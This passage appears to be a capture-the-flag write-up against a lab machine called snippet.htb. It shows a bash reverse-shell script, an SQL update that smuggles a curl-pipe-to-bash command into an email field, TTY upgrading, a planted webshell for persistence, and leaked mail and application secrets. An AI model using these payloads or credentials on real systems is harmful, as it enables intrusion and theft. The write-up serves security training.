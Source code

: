 - And voila! poc worked and got a revshell after.

```bash
nc -lvnp 80                               
listening on [any] 80 ...
connect to [10.10.16.35] from (UNKNOWN) [10.10.11.171] 58274
GET / HTTP/1.1
Host: 10.10.16.35
User-Agent: curl/7.64.0
Accept: */*
```

- Setting up the payload:
- game.sh:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.35/9001 0>&1
```

```sql
UPDATE users SET email = "test@test|curl 10.10.16.35/game.sh -o - | bash #" WHERE name = "test";
```

```bash                     
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.35] from (UNKNOWN) [10.10.11.171] 35344
bash: cannot set terminal process group (45): Inappropriate ioctl for device
bash: no job control in this shell
application@4dae106254bf:/var/www/html/public$ which python3
which python3
application@4dae106254bf:/var/www/html/public$ which python
which python
/usr/bin/python
application@4dae106254bf:/var/www/html/public$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
application@4dae106254bf:/var/www/html/public$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

application@4dae106254bf:/var/www/html/public$ export TERM=xterm-256color
application@4dae106254bf:/var/www/html/public$ stty rows 39 cols 157
application@4dae106254bf:/var/www/html/public$ 
```

- And I'm inside a docker container...
- Planted a webshell at `snippet.htb/game.php` in case i lose my revshell
- Interesting env variables:

```bash
MAIL_PASSWORD=8nSYkjlxtwFAcFZ9S1tg7d48WNXD6wPr1aeRmdRz
APP_SECRET=T8pQxcZe1mcVcdtbZRSqSCDNIiTmaYZjPQsemzuj
```
